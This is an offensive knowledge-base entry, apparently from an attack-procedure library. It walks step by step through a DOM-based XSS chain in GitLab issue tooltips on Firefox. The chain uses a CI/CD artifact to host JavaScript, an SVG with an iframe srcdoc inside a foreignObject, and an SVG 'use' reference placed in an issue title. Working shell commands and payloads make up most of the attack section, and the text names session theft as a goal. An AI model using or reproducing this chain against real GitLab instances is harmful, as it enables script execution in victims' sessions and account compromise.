

---
tags:
  - xss
  - dom-xss
  - gitlab
  - svg
  - firefox
  - bootstrap
type: attack_chain
tools:
  - '[[tools/GitLab-CI-CD]]'
tactics:
  - '[[Execution]]'
commands:
  - '[[commands/create-alert-js-file]]'
  - '[[commands/create-xss-svg-file]]'
  - '[[commands/create-gitlab-ci-yml]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Create-Malicious-JavaScript-Artifact-Using-GitLab-CI-CD]]'
  - '[[procedures/Embed-JavaScript-in-SVG-File-for-XSS-Payload]]'
  - '[[procedures/Create-Issue-with-SVG-Reference-in-Title]]'
  - '[[procedures/Trigger-XSS-by-Referencing-the-Issue]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
description: >-
  A multi-stage attack exploiting insufficient SVG sanitization in GitLab's
  Bootstrap tooltips to achieve DOM-based XSS on Firefox, using CI/CD artifacts
  to host malicious JavaScript.
skill_level: intermediate
impact_level: high
id: 5ca83f0b-c746-4756-89dc-9d257511d0d4
created_at: '2025-12-13T23:52:43.701Z'
updated_at: '2025-12-13T23:52:43.701Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# GitLab DOM-based XSS via Malicious SVG Artifacts in Issue Tooltips

Multi-stage attack chain demonstrating a complete DOM-based XSS exploitation in GitLab's issue reference tooltips on Firefox, leveraging CI/CD artifacts to bypass MIME restrictions and load external malicious JavaScript via SVG elements.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/GitLab-CI-CD]]

### Target Environment

- GitLab instance (self-hosted or SaaS)
- Authenticated access to create projects, issues, and run CI/CD jobs
- Firefox browser for exploitation (due to foreignObject support)

### Initial Access Requirements

- Valid GitLab user account with project creation and CI/CD execution permissions
- No special network access beyond standard GitLab API/UI

## Detailed Attack Procedures

### Step 1: Create Malicious JavaScript Artifact
procedure: [[procedures/Create-Malicious-JavaScript-Artifact-Using-GitLab-CI-CD]]

**Objective**: Generate a JavaScript file as a CI/CD artifact with proper MIME type to host the payload externally.

**Instructions**: Set up a GitLab project and configure CI/CD to produce the alert.js file. Use [[commands/create-gitlab-ci-yml]] to define the job:

```bash
echo 'xss_job:
  script:
    - echo "alert(\'Hello: \' + window.parent.location.href);" > alert.js
  artifacts:
    paths:
      - alert.js
    expire_in: 4 weeks' > .gitlab-ci.yml
```

Then commit and trigger the pipeline to generate the artifact URL.

**Expected Output**: Artifact URL like https://gitlab.com/username/project/-/jobs/artifacts/raw/alert.js with MIME type application/javascript.

**Success Indicators**:
- CI/CD job completes successfully
- Artifact downloadable with correct MIME type (bypassing nosniff)

### Step 2: Embed JavaScript in SVG File
procedure: [[procedures/Embed-JavaScript-in-SVG-File-for-XSS-Payload]]

**Objective**: Create an SVG that loads the malicious JS via iframe in a foreignObject, enabling execution when rendered.

**Instructions**: Use the artifact URL from Step 1. Create the SVG file with [[commands/create-xss-svg-file]]:

```bash
echo '<svg id="xss" xmlns="http://www.w3.org/2000/svg"><foreignObject><iframe xmlns="http://www.w3.org/1999/xhtml" srcdoc=\'&lt;script src=https://gitlab.com/username/project/-/jobs/artifacts/raw/alert.js&gt;&lt;/script&gt;\'&gt;&lt;/iframe&gt;&lt;/foreignObject&gt;&lt;/svg>' > xss.svg
```

Commit xss.svg to the GitLab project repository.

**Expected Output**: SVG file committed and accessible via raw URL like https://gitlab.com/username/project/-/raw/master/xss.svg.

**Success Indicators**:
- SVG file validates without errors
- Raw URL serves the file as text/xml or similar

### Step 3: Create Issue with SVG Reference
procedure: [[procedures/Create-Issue-with-SVG-Reference-in-Title]]

**Objective**: Embed the SVG in an issue title using <use> and xlink:href to reference the malicious SVG.

**Instructions**: In the GitLab project, create a new issue. Set the title to include the SVG reference pointing to the xss.svg#xss. No specific command needed; use the GitLab UI or API to set title as:

<svg><use xlink:href="https://gitlab.com/username/project/-/raw/master/xss.svg#xss"/></svg>

Save the issue (e.g., issue ID #1).

**Expected Output**: Issue created with SVG-embedded title, visible in the UI.

**Success Indicators**:
- Issue title renders the SVG without immediate errors
- SVG loads when viewed directly

### Step 4: Trigger XSS by Referencing the Issue
procedure: [[procedures/Trigger-XSS-by-Referencing-the-Issue]]

**Objective**: Reference the issue in a discussion or wiki to trigger tooltip rendering, loading the SVG and executing JS on hover.

**Instructions**: In another issue, discussion, or wiki page, add text like "Move mouse over #1 to see alert" (assuming issue #1). Hover over the #1 reference in Firefox.

**Expected Output**: Tooltip appears, SVG loads via <use>, foreignObject executes the iframe srcdoc script, triggering the alert with current URL.

**Success Indicators**:
- Alert box pops up on hover
- JavaScript executes in the context of the viewing user's session

## Attack Chain Summary

### Key Achievements

1. Bypassed MIME restrictions using GitLab CI/CD artifacts to host executable JS.
2. Exploited Bootstrap tooltip's lax SVG sanitization and Firefox's foreignObject support.
3. Achieved arbitrary JS execution for session theft or client-side attacks.
4. Demonstrated similar vulnerability in snippets' titles.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01*
